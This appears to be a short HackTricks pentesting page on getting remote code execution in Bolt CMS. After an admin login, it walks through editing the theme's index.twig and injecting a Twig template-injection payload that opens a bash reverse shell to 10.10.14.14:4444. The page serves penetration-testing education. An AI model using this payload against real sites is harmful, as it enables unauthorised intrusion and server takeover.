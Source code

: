 # Bolt CMS
{{#include /banners/hacktricks-training.md}}


{{#include ../../banners/hacktricks-training.md}}

## RCE

After login as admin (go to /bot lo access the login prompt), you can get RCE in Bolt CMS:

- Select `Configuration` -> `View Configuration` -> `Main Configuration` or go the the URL path `/bolt/file-edit/config?file=/bolt/config.yaml`
  - Check the value of theme

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Select `File management` -> `View & edit templates`
  - Select the theme base found in the previous (`base-2021` in this case) step and select `index.twig`
  - In my case this is in the URL path /bolt/file-edit/themes?file=/base-2021/index.twig
- Set your payload in this file via [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php), like: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
  - And save changes

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Clear the cache in `Maintenance` -> `Clear the cache`
- Access again the page as a regular user, and the payload should be executed

{{#include ../../banners/hacktricks-training.md}}
